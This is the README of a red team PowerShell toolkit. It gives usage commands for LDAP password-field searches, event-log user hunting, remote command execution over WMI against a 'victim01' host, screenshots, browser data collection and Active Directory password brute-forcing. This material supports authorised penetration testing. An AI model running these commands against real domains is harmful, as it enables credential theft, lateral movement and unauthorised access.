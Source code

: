 # Red Team Powershell Scripts

```
Search-EventForUser.ps1: Powershell script that search through the Windows event logs for specific user(s)
Search-FullNameToSamAccount.ps1: Full name to SamAccountName
Search-UserPassword.ps1: Search LDAP for userPassword field
Search-users.ps1: Search-FullNameToSamAccount, Search-EventForUser and Search-UserPassword merged together
Remote-WmiExecute.ps1: Execute command remotely using WMI
Take-Screenshot.ps1: Take a screenshot (PNG)
Get-BrowserHomepage.ps1: Get browser homepage
Get-IEBookmarks.ps1: List all Internet Explorer bookmarks URLs
Invoke-ADPasswordBruteForce.ps1: Test users password
```

# Search-EventForUser.ps1 Usage
```
module-import .\Search-EventForUser.ps1; Search-EventForUser -TargetUser "MrUn1k0d3r"

module-import .\Search-EventForUser.ps1; "MrUn1k0d3r" | Search-EventForUser

module-import .\Search-EventForUser.ps1; Search-EventForUser -TargetUser MrUn1k0d3r -ComputerName DC01

module-import .\Search-EventForUser.ps1; Search-EventForUser -TargetUser MrUn1k0d3r -FindDC true

module-import .\Search-EventForUser.ps1; "god", "mom" | Search-EventForUser -FindDC true

module-import .\Search-EventForUser.ps1; "god", "mom" | Search-EventForUser -FindDC true -Username DOMAIN\admin -Password "123456"
```
The -User parameter support single user or a list of users from pipeline

# Search-FullNameToSamAccount.ps1 Usage
```
module-import .\Search-FullNameToSamAccount.ps1; Search-FullNameToSamAccount -Filter *god*

module-import .\Search-FullNameToSamAccount.ps1; "god", "mom" | Search-FullNameToSamAccount
```

# Search-UserPassword.ps1 Usage
```
module-import .\Search-UserPassword.ps1; Search-UserPassword -Username *god*

module-import .\Search-UserPassword.ps1; "god", "mom" | Search-UserPassword
```

# Remote-WmiExecute.ps1 Usage
```
module-import .\Remote-WmiExecute.ps1; Remote-WmiExecute -ComputerName victim01 -Payload "cmd.exe /c whoami"
```

# Take-Screenshot.ps1 Usage
```
module-import .\Take-Screenshot.ps1; Take-Screenshot -Path C:\test.png
```

# Get-BrowserHomepage.ps1 Usage
```
module-import .\Get-BrowserHomepage.ps1; Get-BrowserHomepage
```

# Get-IEBookmarks.ps1 Usage
```
module-import .\Get-IEBookmarks.ps1; Get-IEBookmarks
```

# Invoke-ADPasswordBruteForce.ps1 Usage
```
module-import .\Invoke-ADPasswordBruteForce; Invoke-ADPasswordBruteForce -Username "mr.un1k0d3r" -Password "password"

module-import .\Invoke-ADPasswordBruteForce; "neo","morpheus" | Invoke-ADPasswordBruteForce -Password "password"

module-import .\Invoke-ADPasswordBruteForce; "neo","morpheus" | Invoke-ADPasswordBruteForce -Password "password" -Domain MATRIX
```

# Todo

1. Remote-WmiExecute.ps1:
  * Improve errors handling (Access Denied etc...)
2. Take-Screenshot.ps1:
  * Handle multiple screens

# Credit
Mr.Un1k0d3r RingZer0 Team
